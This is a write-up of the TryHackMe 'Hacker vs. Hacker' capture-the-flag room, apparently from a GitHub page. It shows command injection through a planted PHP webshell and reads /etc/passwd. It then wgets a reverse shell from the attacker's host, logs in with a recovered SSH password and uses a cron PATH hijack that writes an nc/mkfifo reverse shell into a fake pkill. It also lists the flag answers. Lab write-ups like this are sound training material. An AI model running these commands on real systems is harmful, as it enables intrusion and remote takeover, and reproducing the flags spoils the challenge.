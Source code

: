 # [Hacker vs. Hacker](https://tryhackme.com/room/hackervshacker)

> Someone has compromised this server already! Can you get in and evade their countermeasures?

## Scanning

scan the target

```
nmap -sS -sV -Pn 10.10.138.41
```

![image](https://user-images.githubusercontent.com/90561566/211735500-a55fefa6-996f-42aa-a440-8a49f3f5311d.png)

## HTTP

view the webpage

![image](https://user-images.githubusercontent.com/90561566/211735689-9853ed7f-2660-480b-81bf-f2fe1698dec6.png)

it's a recuit page and has a form to submit cv

hmm, there are some notes left about security risk

![image](https://user-images.githubusercontent.com/90561566/211736077-30a9fcbd-29ce-4905-96f8-d83c0c2847cc.png)

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.138.41/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/211736616-486fcb70-b07e-4f22-8ce2-650b4cabf47d.png)

the `/cvs` folder seem interesting

![image](https://user-images.githubusercontent.com/90561566/211736800-d763be13-bfd2-4694-a098-05d787584af9.png)

Okay so let’s try to find the hackers shell in folder. Maybe we find a webshell.

![image](https://user-images.githubusercontent.com/90561566/211737049-1a7f8085-5fd0-486d-9889-e086406cc40b.png)

i found a hint left in source code

![image](https://user-images.githubusercontent.com/90561566/211737165-99d06e78-2c5c-4187-9ac0-4423097fc5d9.png)

## Exploitation

So the shell name has to contain `.pdf` and is likely to end with `.php`, i guess it

you can use gobuster to scan for the same result

![image](https://user-images.githubusercontent.com/90561566/211738802-a54fa273-ed96-46b8-acf6-79f903bfb111.png)

Looks like we found it. Now we just have to find the parameter for command injection

Usually this is something like `?cmd=` or `?shell=` or `?command=`

![image](https://user-images.githubusercontent.com/90561566/211739018-66172636-9dce-4ce0-9e5a-1e3a2d06caa0.png)

```
http://10.10.138.41/cvs/shell.pdf.php?cmd=cat%20/etc/passwd
```

![image](https://user-images.githubusercontent.com/90561566/211739813-1e25db28-b636-495c-8426-81306f0e8dda.png)

we see a user lachlan

```
http://10.10.138.41/cvs/shell.pdf.php?cmd=ls%20/home/lachlan
```

![image](https://user-images.githubusercontent.com/90561566/211740195-db787a45-9ad1-4350-99d9-7fc89e0e7d9e.png)

```
http://10.10.138.41/cvs/shell.pdf.php?cmd=cat%20/home/lachlan/user.txt
```

![image](https://user-images.githubusercontent.com/90561566/211740277-aaaa28d3-c852-4da0-b682-081bf5d9dc5e.png)

| Flag | user.txt |
| --- | --- |
| Answer | thm{af7e46b68081d4025c5ce10851430617} |

## Privilege Escalation

prepare you revershell

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
python3 -m http.server
```

```
http://10.10.138.41/cvs/shell.pdf.php?cmd=wget%20http://10.8.0.74:8000/reverse.php
```

open your netcat and go to reverse.php

```
nc -vlnp 4444
http://10.10.138.41/cvs/reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/211743022-a9c1de40-5735-4909-88ca-e3a89febbda1.png)

at the same location, we see a interesting folder `/bin` but nothing there

![image](https://user-images.githubusercontent.com/90561566/211743321-1c452b51-c431-4a23-9e37-c225c39f5fb0.png)

maybe i'm in dead-end, but i think about .bash_history

```
cat /home/lachlan/.bash_history
```

![image](https://user-images.githubusercontent.com/90561566/211743796-f1333d96-6f5c-4037-88aa-6af0c6c3590b.png)

it's password of user lachlan

```
ssh lachlan@10.10.211.153
thisistheway123
```

but it kick out us with nope message

![image](https://user-images.githubusercontent.com/90561566/211744519-07e3e17f-3986-44bb-819b-f26d65001f26.png)

check another file we found at bash history

```
cat /etc/cron.d/persistence
```

![image](https://user-images.githubusercontent.com/90561566/211744834-4ade7eb2-44de-46df-95f5-bd2ba34cb62f.png)

after researching, i found a flag at ssh command maybe useful

![image](https://user-images.githubusercontent.com/90561566/211745810-b8638f5d-e5f7-4da2-9300-9c10d357b414.png)

```
ssh lachlan@10.10.211.153 -T
```

![image](https://user-images.githubusercontent.com/90561566/211747040-4de026aa-c502-4944-9c77-d8c6da22cccb.png)

If we look at the persistence again, you will notice that the cronjob looks inside the /home/lachlan/bin

we can create our pkill within the /home/lachlan/bin directory to gain precedence over the default pkill command

![image](https://user-images.githubusercontent.com/90561566/211747600-7b2dab2a-5bd4-44eb-8b80-3eac657344fe.png)

```
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.0.74 4444 >/tmp/f" > /home/lachlan/bin/pkill
chmod +x pkill
```

open netcat listener

```
nc -vlnp 4444
```

![image](https://user-images.githubusercontent.com/90561566/211749014-e43309e0-4f45-4fec-8fb7-21beadae682a.png)

![image](https://user-images.githubusercontent.com/90561566/211749265-e9730114-7633-4089-a5ba-96a23a3d61bc.png)

| Flag | root.txt |
| --- | --- |
| Answer | thm{7b708e5224f666d3562647816ee2a1d4} |

